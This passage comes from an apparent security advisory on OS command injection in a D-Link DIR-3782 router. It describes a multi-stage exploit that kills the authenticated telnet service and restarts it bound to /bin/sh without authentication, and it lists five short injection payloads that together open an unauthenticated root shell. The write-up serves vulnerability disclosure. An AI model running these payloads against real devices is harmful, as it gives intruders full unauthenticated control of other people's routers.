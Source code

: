 Checking the `acl.sh` script it is possible to see my untouched payload, this is the prove that I can break the script syntax and execute arbitrary commands!!

![acl.sh3](/images/2019-01-24-D-Link-DIR-3782-SecAdvisory:-OS-Command-Injection-and-Stored-XSS/new_ACLsh3.png)

### Exploitation
It's time to exploit this injection to take full control over the device! My idea was to put a backdoor on the device and then use it to access the whole system. I thought Telnet was a good option since the router already has this software on board and it would have provided a fast and reliable access to the filesystem.

Since the router by default runs a `utelnetd` service `358 admin 180 S utelnetd -l /bin/login -d` where a user, in order to access the system, has to provide valid credentials, it is necessary to stop this service and start a new one without any authentication. Something like this: `utelnetd -l /bin/sh -d`

However there was one big limitation with this injection point: the payload length. Suddenly the application cuts the user input allowing to inject only 15 characters (13 if you consider that the first and the last characters must be a semicolon `;`) so it is necessary to find a workaround to bypass this limitation. 

 After many failed attempts, I came out with the solution to my problem that could be defined a multi-stage exploit. In particular I've noticed that it was possible to inject commands multiple times inside the acl.sh script and all of them were executed, so the problem was to find a correct 13-chars-length command sequence that would have allowed to stop and then restart telnet service. I think there are different ways to do this, mine is the following:

```
Payload 1: 'ps|grep tel>a'     # identify telnet pid grepping ps output and store it in file a 
Payload 2: 'grep -v gr a>b'    # remove unwanted line
Payload 3: 'kill $(cat b)'     # kill utelnetd
Payload 4: 'cp /bin/sh .'      # copy sh executable in root folder
Payload 5: 'utelnetd -dl sh'   # restart utelnetd binded on sh
``` 
 